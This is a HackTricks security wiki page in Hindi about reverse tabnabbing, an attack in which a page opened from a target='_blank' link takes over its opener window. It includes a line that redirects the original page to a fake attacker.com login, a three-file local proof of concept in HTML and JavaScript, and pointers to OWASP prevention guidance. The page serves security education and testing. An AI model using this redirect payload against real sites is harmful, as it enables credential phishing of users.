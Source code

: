 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# Description

एक स्थिति में जहां एक **हमलावर** **`href`** तर्क को **`<a`** टैग के साथ नियंत्रित कर सकता है जिसमें विशेषता **`target="_blank" rel="opener"`** है जिसे एक पीड़ित द्वारा क्लिक किया जाएगा, **हमलावर** इस **लिंक** को एक वेब पर इंगित करता है जो उसके नियंत्रण में है (एक **दुष्ट** **वेबसाइट**)। फिर, जब **पीड़ित लिंक पर क्लिक करता है** और हमलावर की वेबसाइट तक पहुंचता है, तो यह **दुष्ट** **वेबसाइट** **`window.opener`** जावास्क्रिप्ट ऑब्जेक्ट के माध्यम से **मूल** **पृष्ठ** को **नियंत्रित** करने में सक्षम होगी।\
यदि पृष्ठ में **`rel="opener"` नहीं है लेकिन `target="_blank"` है और इसमें `rel="noopener"` नहीं है** तो यह भी कमजोर हो सकता है।

इस व्यवहार का दुरुपयोग करने का एक सामान्य तरीका होगा **मूल वेब का स्थान बदलना** `window.opener.location = https://attacker.com/victim.html` एक ऐसी वेब पर जो हमलावर द्वारा नियंत्रित है जो **मूल एक की तरह दिखती है**, ताकि यह **मूल वेबसाइट** के **लॉगिन** **फॉर्म** की **नकल** कर सके और उपयोगकर्ता से क्रेडेंशियल्स मांग सके।

हालांकि, ध्यान दें कि चूंकि **हमलावर अब मूल वेबसाइट के विंडो ऑब्जेक्ट को नियंत्रित कर सकता है**, वह इसे अन्य तरीकों से **गुप्त हमलों** को अंजाम देने के लिए दुरुपयोग कर सकता है (शायद जावास्क्रिप्ट इवेंट्स को संशोधित करके जानकारी को उसके द्वारा नियंत्रित सर्वर पर एक्स-फिल्ट्रेट करना?)

# Overview

## With back link

जब रोकथाम विशेषता का उपयोग नहीं किया जाता है तो माता-पिता और बच्चे के पृष्ठों के बीच लिंक:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITH_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITH\_LINK.png)

## Without back link

जब रोकथाम विशेषता का उपयोग किया जाता है तो माता-पिता और बच्चे के पृष्ठों के बीच लिंक:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITHOUT_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITHOUT\_LINK.png)

## Examples <a href="#examples" id="examples"></a>

एक फ़ोल्डर में निम्नलिखित पृष्ठ बनाएं और `python3 -m http.server` के साथ एक वेब सर्वर चलाएं\
फिर, **एक्सेस** `http://127.0.0.1:8000/`vulnerable.html, **क्लिक** करें लिंक पर और नोट करें कि **मूल** **वेबसाइट** **यूआरएल** **कैसे बदलता है**।

{% code title="vulnerable.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>Victim Site</h1>
<a href="http://127.0.0.1:8000/malicious.html" target="_blank" rel="opener">Controlled by the attacker</a>
</body>
</html>
```
{% endcode %}

{% code title="malicious.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<script>
window.opener.location = "http://127.0.0.1:8000/malicious_redir.html";
</script>
</body>
</html>
```
{% endcode %}

{% code title="malicious_redir.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>New Malicious Site</h1>
</body>
</html>
```
{% endcode %}

## Accessible properties <a href="#accessible-properties" id="accessible-properties"></a>

उस परिदृश्य में जहां **cross-origin** पहुँच होती है (विभिन्न डोमेन के बीच पहुँच), **opener** जावास्क्रिप्ट ऑब्जेक्ट संदर्भ द्वारा संदर्भित **window** जावास्क्रिप्ट क्लास उदाहरण की विशेषताएँ, जिन्हें एक दुर्भावनापूर्ण साइट द्वारा पहुँचा जा सकता है, निम्नलिखित तक सीमित हैं:

- **`opener.closed`**: इस विशेषता का उपयोग यह निर्धारित करने के लिए किया जाता है कि क्या एक विंडो बंद हो गई है, जो एक बूलियन मान लौटाती है।
- **`opener.frames`**: यह विशेषता वर्तमान विंडो के भीतर सभी iframe तत्वों तक पहुँच प्रदान करती है।
- **`opener.length`**: वर्तमान विंडो में मौजूद iframe तत्वों की संख्या इस विशेषता द्वारा लौटाई जाती है।
- **`opener.opener`**: इस विशेषता के माध्यम से वर्तमान विंडो को खोलने वाली विंडो का संदर्भ प्राप्त किया जा सकता है।
- **`opener.parent`**: यह विशेषता वर्तमान विंडो के माता-पिता विंडो को लौटाती है।
- **`opener.self`**: इस विशेषता द्वारा वर्तमान विंडो स्वयं तक पहुँच प्रदान की जाती है।
- **`opener.top`**: यह विशेषता सबसे ऊपरी ब्राउज़र विंडो को लौटाती है।

हालांकि, उन उदाहरणों में जहां डोमेन समान होते हैं, दुर्भावनापूर्ण साइट को [**window**](https://developer.mozilla.org/en-US/docs/Web/API/Window) जावास्क्रिप्ट ऑब्जेक्ट संदर्भ द्वारा उजागर की गई सभी विशेषताओं तक पहुँच प्राप्त होती है।

# Prevention

रोकथाम की जानकारी [HTML5 Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5\_Security\_Cheat\_Sheet.html#tabnabbing) में दस्तावेज़ित की गई है।

## References

* [https://owasp.org/www-community/attacks/Reverse_Tabnabbing](https://owasp.org/www-community/attacks/Reverse_Tabnabbing)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
